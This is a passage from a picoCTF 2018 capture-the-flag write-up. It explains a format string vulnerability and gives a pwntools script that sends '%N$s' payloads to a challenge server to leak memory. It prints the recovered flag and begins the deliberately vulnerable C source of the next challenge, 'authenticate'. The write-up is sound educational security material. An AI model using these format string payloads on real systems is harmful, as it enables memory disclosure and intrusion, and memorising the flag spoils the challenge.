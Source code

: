 As you can see, instead of using `gets`, the program now uses `fgets` which prevents us from overflowing the buffer; however, the program does pass the user input directly into `printf` which makes the program vulnerable to [format string attacks](https://www.youtube.com/watch?v=0WvrSfcdq1I).

In simple terms, when you can control the first argument passed to a `printf` function, you can craft format strings using `%x`, `%s`, and `%n` to both write to memory and leak memory. For this program, we need to leak memory. The programmer is nice enough to leave a point to the flag buffer on the stack called `flag_ptr` which means we don't even have to put our own string onto the stack. Great!

Here is a simple script that just tries to print out all the values on the heap using `%s`, and sure enough, the flag got print out:

```python
from pwn import *

for i in range(100):
  try:
    sh = remote('2018shell2.picoctf.com', 46960)
    sh.sendlineafter('> ', '%{}$s'.format(i))
    print sh.recvuntil('> ')
    sh.close()
  except EOFError:
    pass
```

flag: `picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}`

# authenticate

## Problem

Can you [authenticate](/blog/picoctf-2018-writeup/Binary Exploitation/authenticate/auth) to this service and get the flag? Connect with `nc 2018shell2.picoctf.com 52918`. [Source](/blog/picoctf-2018-writeup/Binary Exploitation/authenticate/auth.c).

## Solution

Let's look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

int authenticated = 0;

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}

void read_flag() {
  if (!authenticated) {
```